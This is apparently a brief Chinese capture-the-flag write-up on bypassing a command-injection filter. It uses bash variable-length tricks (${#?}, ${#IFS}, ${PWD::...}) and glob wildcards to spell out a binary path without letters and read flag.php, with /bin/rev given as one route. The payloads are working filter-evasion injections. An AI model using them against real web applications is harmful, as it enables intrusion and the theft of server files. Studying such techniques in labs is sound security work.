

# 知识点
```bash
$?
返回上一次命令是否正常执行
正常为0，不正常为非零
则${#?} -> 1

${#IFS} -> 3
```
# 思路
```bash
${#?} 
1

方法一 code=${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
方法二 ${PWD::${#?}}???${PWD::${#?}}${PWD:${#IFS}:${#?}}?? ????.???
/bin/rev flag.php
rev命令 是字符反转输出
```

